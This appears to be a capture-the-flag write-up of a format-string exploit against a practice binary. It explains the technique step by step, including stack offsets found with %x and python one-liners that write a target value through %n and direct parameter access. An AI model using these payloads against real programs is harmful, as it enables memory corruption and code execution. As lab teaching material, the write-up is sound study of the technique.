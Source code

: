 ```clike=
        return;
    system("/bin/sh");
    
}
    
int main()
{
    n()
}
```

This is quite similar to level3, there is an unsafe printf and we are tasked to overwrite the data address `0x08049810` to value `0x01025544` or `16930116` in decimal. This value is too large for us to print out manually as fgets only reads up to 512 characters. We will need to fill in the values using several writes.  

According to this example from the book, we are able to write into contigious bytes like so.
![image](https://hackmd.io/_uploads/rJ8GmjFrT.png)

Because of the little endianess, we will first need to reverse the order of the value to `0x44550201`, then, we can map out the values we want to write to which addresses. 

```
0x08049810 - 0x44
0x08049811 - 0x55
0x08049812 - 0x02
0x08049813 - 0x01
```

And we also need to know how much do we need to traverse in the stack to reach those addresses to reach `0x08049810` , so I tested them out and I got 

```
BBBB b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

This shows that i need to format %x 11 times to get to the values of the first argument. Now lets try writing to them in the actual address to verify the ordering. With the input as `python -c "print '\x08\x04\x98\x10'[::-1] + '\x08\x04\x98\x11'[::-1] + '%x ' * 11 + '%n %n'"> /tmp/level4`, we manage to observe the address being written as below, which proves the ordering correct.

![image](https://hackmd.io/_uploads/Skf1jitBT.png)

I believe all of this information is sufficient for us to actually write the values. However, we are not able to use %n for its intented purposes to count bytes, since the minimum characters to reach the address already exceeds `0x44`

Looking at this [blog](https://gbmaster.wordpress.com/2015/12/08/x86-exploitation-101-format-strings-ill-tell-ya-what-to-say/), it shows that printf has something called **direct paremeter access** which allows us to access certain parameters without needing to format them one by one beforehand. Its syntax looks like this - `%7$x` where it means **Access the 7th argument as a hex**. This can help cut down the bytes below the minimum. To apply this change, we can change out input like so ` python -c "print '\x08\x04\x98\x10'[::-1] + '\x08\x04\x98\x11'[::-1] + 'B' * 60 + '%12\$n' + 'B' * 16 + '%13\$n'"> /tmp/level4`
